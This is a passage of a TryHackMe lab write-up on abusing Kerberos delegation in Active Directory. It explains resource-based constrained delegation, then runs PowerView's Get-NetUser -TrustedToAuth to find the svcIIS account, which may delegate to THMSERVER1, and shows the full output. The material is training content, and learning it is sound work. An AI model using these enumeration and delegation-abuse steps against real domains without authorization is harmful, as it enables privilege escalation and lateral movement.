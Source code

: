 For example, if we have permission to configure RBCD for a service, we have the ability to set the 
`msDS-AllowedToActOnBehalfOfOtherIdentity` attribute for the AD Object. We can populate this attribute with the 
details of an AD account that we have access to. To now gain access to the service, we can generate a TGT for the 
account we control, which will allow us to interact with this service.

## Lab: Constrained Delegation Exploitation

Using the tier 2 admin credentials gained in the [permissions exploitation](permissions.md), RDP to THMWRK1 as T2 
Admin for some enumeration and exploitation.

### Enumeration

Use `PowerView` and the `Get-NetUser` cmdlet of PowerSploit for this enumeration. `PowerView` is going to almost 
always get detected by antivirus!

```text
Windows PowerShell
Copyright (C) Microsoft Corporation. All rights reserved.

PS C:\Users\t2_alan.riley> Import-Module C:\tools\PowerView.ps1
PS C:\Users\t2_alan.riley> Get-NetUser -TrustedToAuth

logoncount               : 43
badpasswordtime          : 11/7/2022 3:13:34 PM
distinguishedname        : CN=IIS Server,CN=Users,DC=za,DC=tryhackme,DC=loc
objectclass              : {top, person, organizationalPerson, user}
displayname              : IIS Server
lastlogontimestamp       : 11/6/2022 6:03:06 PM
userprincipalname        : svcIIS@za.tryhackme.loc
name                     : IIS Server
objectsid                : S-1-5-21-3885271727-2693558621-2658995185-6155
samaccountname           : svcIIS
codepage                 : 0
samaccounttype           : USER_OBJECT
accountexpires           : NEVER
countrycode              : 0
whenchanged              : 11/6/2022 6:03:06 PM
instancetype             : 4
usncreated               : 78494
objectguid               : 11e42287-0a25-4d73-800d-b62e2d2a2a4b
sn                       : Server
lastlogoff               : 1/1/1601 12:00:00 AM
msds-allowedtodelegateto : {WSMAN/THMSERVER1.za.tryhackme.loc, WSMAN/THMSERVER1, http/THMSERVER1.za.tryhackme.loc,
                           http/THMSERVER1}
objectcategory           : CN=Person,CN=Schema,CN=Configuration,DC=tryhackme,DC=loc
dscorepropagationdata    : 1/1/1601 12:00:00 AM
serviceprincipalname     : HTTP/svcServWeb.za.tryhackme.loc
givenname                : IIS
lastlogon                : 11/7/2022 3:14:12 PM
badpwdcount              : 0
cn                       : IIS Server
useraccountcontrol       : NORMAL_ACCOUNT, DONT_EXPIRE_PASSWORD, TRUSTED_TO_AUTH_FOR_DELEGATION
whencreated              : 4/27/2022 11:26:21 AM
primarygroupid           : 513
pwdlastset               : 4/29/2022 11:50:25 AM
usnchanged               : 147565
```
